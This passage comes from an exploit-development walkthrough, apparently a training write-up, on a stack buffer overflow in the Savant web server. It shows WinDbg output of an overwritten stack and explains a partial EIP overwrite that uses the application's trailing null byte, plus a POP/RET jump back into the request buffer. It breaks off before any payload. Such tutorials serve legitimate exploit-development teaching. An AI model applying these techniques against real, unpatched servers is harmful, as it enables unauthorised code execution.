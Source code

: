 
The Savant module (main application) does not have any protection. **However, it is mapped at an address that contains a null byte at the start.** Having a null byte in the address space of the module is an issue, as the application will treat our buffer as a string when inserting the instruction in EIP. A null byte is a string terminator. We need a different approach.

Choosing an address of the other modules, which are Microsoft modules, would mean that the exploit is **dependent on whatever version on Windows is installed on our target (as these DLLs probably will change)**. In addition, we also have to deal with another mitigations like ASLR.

To overcome this issue, we will abuse something that we have already discovered: Our buffer is treated as a string and therefore a null byte is added at the end of it. Remember it: 
```c
0:009> dds esp
0489ea1c  00434343 Savant+0x34343
```

This provides us with an interesting opportunity to use a technique known as a **partial EIP overwrite**.
Because the module we want to attack is mapped in an address range that begins with a null byte, we could use the null byte that the application inserts on our buffer as part of our overwrite.

Indeed, if we send as payload only three bytes to overwrite EIP, we still get the same null byte applied:
```c
0:009> dds esp
0489ea1c  00434343 Savant+0x34343
```

So we could insert any address inside the Savant module using the null byte that is added in that position. But now we need to decide what instruction we want to redirect the execution flow to. The bad thing is that ESP does not point to our buffer nor any register.

During our initial crash analysis, we noticed that the second DWORD on the stack at the time of the crash points very close to our current stack pointer.
In fact, it always seems to point to the HTTP method, followed by the rest of the data we sent:
```c
0:004> dds esp L2
0505ea1c  00414141 Savant+0x14141
0505ea20  0505ea74

0:004> dc 0505ea74
0505ea74  00544547 00000000 00000000 00000000  GET.............
0505ea84  00000000 00000000 4141412f 41414141  ......../AAAAAAA
0505ea94  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0505eaa4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0505eab4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0505eac4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0505ead4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0505eae4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
```

Our goal then is to find an assembly instruction sequence that redirects the execution flow to this data.
Thinking that this value is the second value in ESP, we could do a POP, RET instruction:
The first POP would remove the first DWORD from the stack.
This would make ESP point to the memory address that contains our buffer starting with the HTTP GET method. After executing the RET instruction, we should be placed right at the beginning of our HTTP method.
Using such an instruction sequence would mean that we will have to execute the assembly instructions generated by the GET method opcodes. Let's see this instructions:
```c
0:008> dds poi(esp+4)
047bea74  00544547
047bea78  00000000
047bea7c  00000000
047bea80  00000000
047bea84  00000000
047bea88  00000000
```